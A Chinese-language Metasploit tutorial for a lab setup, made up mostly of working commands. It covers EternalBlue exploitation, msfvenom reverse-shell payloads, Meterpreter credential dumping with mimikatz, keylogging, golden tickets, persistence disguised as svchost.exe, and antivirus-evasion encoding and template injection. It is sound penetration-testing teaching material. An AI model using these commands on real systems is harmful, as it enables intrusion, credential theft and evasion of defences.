

## 目录

- [[#一、Metasploit 框架概述|一、Metasploit 框架概述]]
- [[#二、安装与环境搭建|二、安装与环境搭建]]
- [[#三、msfconsole 核心操作|三、msfconsole 核心操作]]
 - [[#3.1 启动与工作空间管理|3.1 启动与工作空间管理]]
 - [[#3.2 模块搜索与选择|3.2 模块搜索与选择]]
 - [[#3.3 配置与执行利用|3.3 配置与执行利用]]
 - [[#3.4 会话管理|3.4 会话管理]]
- [[#四、Meterpreter 深入|四、Meterpreter 深入]]
 - [[#4.1 核心命令|4.1 核心命令]]
 - [[#4.2 后渗透模块|4.2 后渗透模块]]
 - [[#4.3 kiwi (mimikatz) 集成|4.3 kiwi (mimikatz) 集成]]
- [[#五、msfvenom — Payload 生成|五、msfvenom — Payload 生成]]
 - [[#5.1 基本 Payload 生成|5.1 基本 Payload 生成]]
 - [[#5.2 免杀对抗|5.2 免杀对抗]]
- [[#六、完整攻击链实践|六、完整攻击链实践]]
- [[#七、常见问题排查|七、常见问题排查]]



## 一、Metasploit 框架概述

Metasploit Framework 是世界上最广泛使用的渗透测试框架，由 Rapid7 开发和维护。

> 相关模块: [[02-Exploit-DB与SearchSploit使用|Exploit-DB 搜索]] | [[03-路由器与IoT漏洞利用|路由器/IoT 利用]] | [[04-社会工程学攻击(SET)|SET 社会工程学]] | [[../archstrike-base教学/04-漏洞评估与利用基础|漏洞利用基础]]

核心组件:

| 组件 | 说明 |
|---|---|
| Exploit | 漏洞利用代码，攻击特定漏洞获取访问权限 |
| Payload | 漏洞利用成功后在目标执行的代码 |
| Encoder | 编码/混淆 payload 以绕过杀软 |
| Post | 后渗透模块（提权、信息收集、持久化等） |
| Auxiliary | 辅助模块（扫描、嗅探、DoS 等） |
| NOP | NOP sled 生成器 |

常用 Payload 类型:

| Payload | 说明 |
|---|---|
| Reverse shell | 目标回连攻击机（最常见） |
| Bind shell | 目标开放端口等待攻击机连接 |
| Meterpreter | 高级 payload，功能最丰富 |
| Shell | 简单的命令 Shell |

## 二、安装与环境搭建

```bash
sudo pacman -S metasploit

# 初始化数据库（首次使用）
sudo msfdb init
sudo systemctl enable postgresql --now

# 验证安装
msfconsole --version
```

msfdb 常用管理命令:

```bash
sudo msfdb init # 初始化
sudo msfdb reinit # 重建数据库
sudo msfdb delete # 删除数据库
sudo msfdb status # 查看状态
```

## 三、msfconsole 核心操作

### 3.1 启动与工作空间管理

```bash
msfconsole # 启动交互式控制台
# 启动时不显示 banner
msfconsole -q
```

工作空间管理:

```bash
# 在 msfconsole 内执行
msf6 > workspace # 列出所有工作空间
msf6 > workspace -a project2026 # 创建工作空间
msf6 > workspace project2026 # 切换工作空间
msf6 > workspace -d oldproject # 删除工作空间
```

### 3.2 模块搜索与选择

```bash
msf6 > search eternalblue # 搜索漏洞
msf6 > search type:exploit platform:windows
msf6 > search type:auxiliary scanner smb
msf6 > search cve:2017-0144 # 按 CVE 搜索
msf6 > search name:mssql # 按名称搜索
```

使用模块:

```bash
msf6 > use exploit/windows/smb/ms17_010_eternalblue
# 或使用编号
msf6 > use 0
```

模块信息查看:

```bash
msf6 exploit(ms17_010_eternalblue) > info
msf6 exploit(ms17_010_eternalblue) > show options
msf6 exploit(ms17_010_eternalblue) > show targets
msf6 exploit(ms17_010_eternalblue) > show payloads
msf6 exploit(ms17_010_eternalblue) > show missing # 显示必须设置但未设置的参数
```

### 3.3 配置与执行利用

```bash
# 设置目标
msf6 > set RHOSTS 192.168.56.101
msf6 > set RPORT 445
msf6 > set LHOST 192.168.56.1
msf6 > set LPORT 4444
msf6 > set TARGET 0

# 选择 payload
msf6 > set PAYLOAD windows/x64/meterpreter/reverse_tcp
msf6 > show options

# 检查目标是否存在漏洞
msf6 > check

# 执行利用
msf6 > exploit
# 或作为后台 job 运行
msf6 > exploit -j
```

全局设置（对所有模块生效）:

```bash
msf6 > setg LHOST 192.168.56.1
msf6 > setg LPORT 4444
msf6 > setg RHOSTS 192.168.56.101
```

### 3.4 会话管理

```bash
msf6 > sessions # 列出所有会话
msf6 > sessions -l # 详细列出
msf6 > sessions -i 1 # 进入会话 1
msf6 > sessions -u 1 # 升级 shell 会话到 meterpreter
msf6 > sessions -k 1 # 关闭会话 1
msf6 > sessions -n meter.ini -s # 运行 meterpreter 脚本
msf6 > sessions -c "sysinfo" # 对所有会话执行命令
```

后台运行会话:

```bash
meterpreter > background # 或按 Ctrl+Z
msf6 > sessions -i 1 # 重新进入
```

## 四、Meterpreter 深入

Meterpreter 是 Metasploit 的高级 payload，运行在内存中，通过反射式 DLL 注入执行。

### 4.1 核心命令

**系统信息收集:**

```bash
meterpreter > sysinfo # 系统详细信息
meterpreter > getuid # 当前用户身份
meterpreter > getsystem # 尝试提权到 SYSTEM
meterpreter > getprivs # 查看当前权限
meterpreter > ps # 进程列表
meterpreter > ifconfig # 网络接口
meterpreter > route # 路由表
meterpreter > arp # ARP 表
meterpreter > netstat # 网络连接
meterpreter > idletime # 用户空闲时间
```

**文件系统操作:**

```bash
meterpreter > pwd # 当前工作目录
meterpreter > cd C:\\Windows\\Temp
meterpreter > ls
meterpreter > cat boot.ini
meterpreter > download C:\\passwords.txt /tmp/
meterpreter > upload /tmp/nc.exe C:\\Windows\\Temp\\
meterpreter > search -f *.kdbx # 搜索 Keepass 文件
meterpreter > search -f "password*"
```

**凭证收集:**

```bash
meterpreter > hashdump # 导出本地 SAM 哈希
meterpreter > run hashdump
meterpreter > run smart_hashdump # 导出域哈希
```

**键盘记录与截图:**

```bash
meterpreter > screenshot
meterpreter > keyscan_start
meterpreter > keyscan_dump
meterpreter > keyscan_stop
```

**Shell 与命令执行:**

```bash
meterpreter > shell # 切换到系统 shell
C:\> whoami
C:\> exit # 退出 shell 回到 meterpreter

meterpreter > execute -f cmd.exe -i -H # 隐藏窗口执行 cmd
meterpreter > execute -f notepad.exe # 执行程序
```

**网络扩展（端口转发与路由）:**

```bash
meterpreter > portfwd add -L 0.0.0.0 -l 3389 -r 10.0.0.10 -p 3389
meterpreter > portfwd list
meterpreter > portfwd delete -l 3389

meterpreter > run autoroute -s 10.0.0.0/24 # 通过目标路由到内网
meterpreter > run autoroute -p # 打印路由表
```

### 4.2 后渗透模块

使用 `run` 命令执行 Metasploit post 模块:

```bash
# 信息收集
meterpreter > run post/windows/gather/enum_applications
meterpreter > run post/windows/gather/enum_domain
meterpreter > run post/windows/gather/enum_logged_on_users
meterpreter > run post/windows/gather/enum_shares
meterpreter > run post/windows/gather/enum_patches
meterpreter > run post/windows/gather/checkvm

# 凭证收集
meterpreter > run post/windows/gather/credentials/credential_collector
meterpreter > run post/windows/gather/credentials/enum_cred_store
meterpreter > run post/windows/gather/credentials/gpp

# 持久化
meterpreter > run post/windows/manage/persistence_exe \
 REXENAME=svchost.exe REXEPATH=C:\\Windows\\Temp \
 STARTUP=USER LHOST=192.168.56.1 LPORT=4444

meterpreter > run post/windows/manage/migrate # 迁移进程（更稳定）
meterpreter > run killav # 尝试终止杀软进程
meterpreter > run post/windows/manage/enable_rdp # 启用远程桌面
```

### 4.3 kiwi (mimikatz) 集成

kiwi 是 meterpreter 内置的 mimikatz 扩展:

```bash
meterpreter > load kiwi # 加载 kiwi 扩展
meterpreter > help kiwi # 查看所有 kiwi 命令

# 核心凭证操作
meterpreter > creds_all # 导出所有凭证
meterpreter > creds_msv # MSV 凭证
meterpreter > creds_wdigest # WDigest 凭证
meterpreter > creds_kerberos # Kerberos 票据
meterpreter > creds_livessp # LiveSSP 凭证
meterpreter > creds_ssp # SSP 凭证
meterpreter > creds_tspkg # TSPKG 凭证

# 黄金票据 / 白银票据
meterpreter > golden_ticket_create -d domain.local -u Administrator -s SID -k krbtgt_hash
meterpreter > kerberos_ticket_use /tmp/ticket.bin

# 其他 kiwi 操作
meterpreter > lsa_dump_sam # 转储 SAM
meterpreter > lsa_dump_secrets # 转储 LSA 秘密
meterpreter > wifi_list # WiFi 密码（需管理员权限）
```

## 五、msfvenom — Payload 生成

msfvenom 是 msfpayload 和 msfencode 的合并工具，用于生成和编码 payload。

### 5.1 基本 Payload 生成

```bash
# 列出所有 payload
msfvenom -l payloads

# 列出所有编码器
msfvenom -l encoders

# 列出所有输出格式
msfvenom -l formats
```

**常用 Payload 生成示例:**

```bash
# Windows x64 reverse_tcp Meterpreter (staged)
msfvenom -p windows/x64/meterpreter/reverse_tcp \
 LHOST=192.168.56.1 LPORT=4444 \
 -f exe -o /tmp/shell.exe

# Windows x64 reverse_tcp Meterpreter (stageless — 更稳定)
msfvenom -p windows/x64/meterpreter_reverse_tcp \
 LHOST=192.168.56.1 LPORT=4444 \
 -f exe -o /tmp/shell_stageless.exe

# Linux reverse shell
msfvenom -p linux/x64/shell_reverse_tcp \
 LHOST=192.168.56.1 LPORT=4444 \
 -f elf -o /tmp/shell.elf

# PHP reverse shell
msfvenom -p php/meterpreter_reverse_tcp \
 LHOST=192.168.56.1 LPORT=4444 \
 -f raw -o /tmp/shell.php

# Python reverse shell
msfvenom -p python/meterpreter_reverse_tcp \
 LHOST=192.168.56.1 LPORT=4444 \
 -f raw -o /tmp/shell.py

# War 文件 (Java)
msfvenom -p java/jsp_shell_reverse_tcp \
 LHOST=192.168.56.1 LPORT=4444 \
 -f war -o /tmp/shell.war

# PowerShell 格式
msfvenom -p windows/x64/meterpreter/reverse_tcp \
 LHOST=192.168.56.1 LPORT=4444 \
 -f psh -o /tmp/shell.ps1

# DLL 格式
msfvenom -p windows/x64/meterpreter/reverse_tcp \
 LHOST=192.168.56.1 LPORT=5555 \
 -f dll -o /tmp/hook.dll

# HTA 格式
msfvenom -p windows/x64/meterpreter/reverse_tcp \
 LHOST=192.168.56.1 LPORT=4444 \
 -f hta-psh -o /tmp/shell.hta
```

### 5.2 免杀对抗

**编码技术:**

```bash
# x86 编码
msfvenom -p windows/shell_reverse_tcp \
 LHOST=192.168.56.1 LPORT=4444 \
 -e x86/shikata_ga_nai -i 5 \
 -f exe -o /tmp/encoded.exe

# x64 编码（编码器较少）
msfvenom -p windows/x64/meterpreter/reverse_tcp \
 LHOST=192.168.56.1 LPORT=4444 \
 -e x64/xor -i 5 \
 -f exe -o /tmp/x64_encoded.exe

# 查看 x64 可用编码器
msfvenom -l encoders --arch x64
```

**模板注入:**

```bash
# 注入到合法 EXE（模板劫持）
msfvenom -p windows/x64/meterpreter/reverse_tcp \
 LHOST=192.168.56.1 LPORT=4444 \
 -x /usr/share/windows-binaries/plink.exe -k \
 -f exe -o /tmp/svchost.exe
```

**使用 reverse_https (绕过特征检测):**

```bash
# reverse_https 流量伪装为 HTTPS，更难被检测
msfvenom -p windows/x64/meterpreter/reverse_https \
 LHOST=192.168.56.1 LPORT=443 \
 -f exe -o /tmp/https_shell.exe
```

**Listener 设置（对应不同 payload）:**

```bash
# reverse_tcp 监听器
msf6 > use exploit/multi/handler
msf6 > set PAYLOAD windows/x64/meterpreter/reverse_tcp
msf6 > set LHOST 192.168.56.1
msf6 > set LPORT 4444
msf6 > exploit -j

# reverse_https 监听器
msf6 > set PAYLOAD windows/x64/meterpreter/reverse_https
msf6 > set LPORT 443
```

## 六、完整攻击链实践

目标: Metasploitable3 Windows (192.168.56.101)

```bash
# Phase 1: 侦察
msf6 > workspace -a redteam_2026
msf6 > db_nmap -sV -sC -O -p- 192.168.56.101
msf6 > hosts
msf6 > services
msf6 > vulns

# Phase 2: 漏洞利用 (EternalBlue)
msf6 > search ms17_010
msf6 > use exploit/windows/smb/ms17_010_eternalblue
msf6 > set RHOSTS 192.168.56.101
msf6 > set LHOST 192.168.56.1
msf6 > set LPORT 4444
msf6 > set PAYLOAD windows/x64/meterpreter/reverse_tcp
msf6 > check
msf6 > exploit -j

# Phase 3: 后渗透
msf6 > sessions -i 1
meterpreter > sysinfo
meterpreter > getuid
meterpreter > getsystem
meterpreter > migrate -N lsass.exe

# Phase 4: 凭证收集
meterpreter > load kiwi
meterpreter > creds_all
meterpreter > hashdump
meterpreter > run post/windows/gather/enum_domain
meterpreter > run post/windows/gather/enum_logged_on_users

# Phase 5: 横向移动准备
meterpreter > route print
meterpreter > run post/windows/gather/enum_ad_computers
meterpreter > run post/windows/gather/credentials/credential_collector

# Phase 6: 持久化与清理
meterpreter > run post/windows/manage/persistence_exe \
 REXENAME=svchost.exe REXEPATH=C:\\Windows\\Temp \
 STARTUP=USER LHOST=192.168.56.1 LPORT=4444

# Phase 7: 导出报告
meterpreter > background
msf6 > db_export -f xml /tmp/report_2026.xml
msf6 > creds -o /tmp/credentials_2026.csv

# 如有合法需求，执行清理
meterpreter > resource /tmp/cleanup.rc
```

## 七、常见问题排查

| 问题 | 解决方案 |
|---|---|
| msfdb 启动失败 | `sudo msfdb reinit` 或检查 PostgreSQL: `sudo systemctl status postgresql` |
| Meterpreter 会话不稳定 | 使用 `reverse_https` payload 代替 `reverse_tcp` |
| 生成的 exe 被 Defender 检测 | 增加编码迭代 (`-i 10`)、使用模板注入 (`-x -k`)、换用 `reverse_https` |
| msfvenom 提示找不到编码器 | `msfvenom -l encoders` 列出所有可用编码器，注意 x64 和 x86 不同 |
| exploit 连接后立即断开 | 确认 LHOST 可达、防火墙端口开放、payload 和 listener 类型匹配 |
| getsystem 失败 | 尝试 `run post/multi/recon/local_exploit_suggester` 寻找本地提权漏洞 |

msfconsole 的 `resource` 命令可以批量执行 MSF 指令（自动化脚本）:

```bash
# 创建 resource 脚本
cat > /tmp/auto_smb.rc << 'EOF'
use auxiliary/scanner/smb/smb_version
set RHOSTS 192.168.56.0/24
set THREADS 10
run
exit
EOF

# 执行
msfconsole -r /tmp/auto_smb.rc
```

Metasploit 是现代红队作战的核心平台。掌握 msfconsole、msfvenom、Meterpreter 三大组件是进入漏洞利用领域的必备技能。从信息收集到漏洞利用，从后渗透到凭证窃取，从持久化到横向移动，MSF 覆盖了完整攻击链的每个环节。

[[../总目录与快速查询|← 返回总目录]]
